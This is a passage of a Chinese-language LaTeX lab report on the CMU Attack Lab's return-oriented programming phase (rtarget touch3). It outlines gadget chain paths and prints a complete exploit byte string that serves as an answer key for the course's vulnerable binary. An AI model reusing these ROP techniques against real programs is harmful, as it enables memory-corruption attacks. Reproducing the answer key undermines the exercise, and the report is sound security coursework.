    
\includegraphics[width=0.48\textwidth]{Tip.png}
    \caption{在CSDN中查找到的流程图}
\end{figure}

\subsubsection{攻击前置知识}
在farm中寻找代码的过程较为繁琐,也可能由于找不到某一指令导致要全部重来。

CMU提示我们官方答案使用了8个gadget函数。

还有一些前提知识需要我们了解:

\  \ \ $mov$ 类型 的 $gadget$ 指令使得 $\%rsp+8$ ,$pop$ 类型 的 $gadget$ 指令使得 $\%rsp+16$.

因为栈随机,$64$位栈地址高$32$位不一定是$0$,所以$mov$时只能用$movq$.

\subsubsection{攻击分析步骤}
    漫长的寻找过程中,我尝试了许多gadget函数,但能力有限仍然未能分析出结果。

    根据知乎大佬的提示,有下列两种路径,但由于时间有限,我未能亲自完成实验,只能暂时使用其他人的分析过程和参考答案,实践证明,该答案正确。
    可以跑通,我会将这些遗憾在未来完成。
    以下我将两个路径先留在这里。

    \begin{lstlisting}
        
    方法1:实现路径
        rsp->rax->rdi,
        popq %rax
        eax->edx->ecx->esi
        add_xy
        rax->rdi
        touch3

    方法2:加法路径
        rsp->rax
        rax+=0x37    这里虽然只加低8位,但不影响高24位
        rax->rdi
        touch3
    \end{lstlisting}

\subsubsection{Answers}
参考答案如下所示:
\begin{table}[H]
    \centering
    \begin{tabular}{cccccccc}
        \hline
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        06 1a 40 00 00 00 00 00 \\
        c5 19 40 00 00 00 00 00 \\
        ab 19 40 00 00 00 00 00 \\
        48 00 00 00 00 00 00 00 \\
        dd 19 40 00 00 00 00 00 \\
        34 1a 40 00 00 00 00 00 \\
        13 1a 40 00 00 00 00 00 \\
        d6 19 40 00 00 00 00 00 \\
        c5 19 40 00 00 00 00 00 \\
        fa 18 40 00 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        \hline
    \end{tabular}
    \caption{ $Touch 3 \ rtarger$ 注入方案 }
  \end{table}

\begin{figure} [H]
    \centering
    
\includegraphics[width=0.4\textwidth]{Rts2.png}
    \caption{$rtarget\ Part\ B$ 实验结果}
\end{figure}




\section{Result}
本次实验对我来说难度较大,
过程中有很多不明白的地方,
但在查阅资料的过程中收获了很多,
更加熟练的掌握了知识。主要是以下两部分:

\begin{itemize}
  \item 汇编语言和反汇编:
  \item 在实验中,objdump等工具将C代码反汇编成汇编代码,深入理解了汇编语言的结构和指令集。通过对比C代码和汇编代码,掌握了函数调用、参数传递、栈操作等基本概念。
  \item 栈和寄存器操作:
  \item 理解了函数调用过程中栈的使用,以及如何通过寄存器进行数据传递和运算。具体包括函数的调用约定(calling conventions)、栈帧的结构和维护等。
\end{itemize}

\end{document}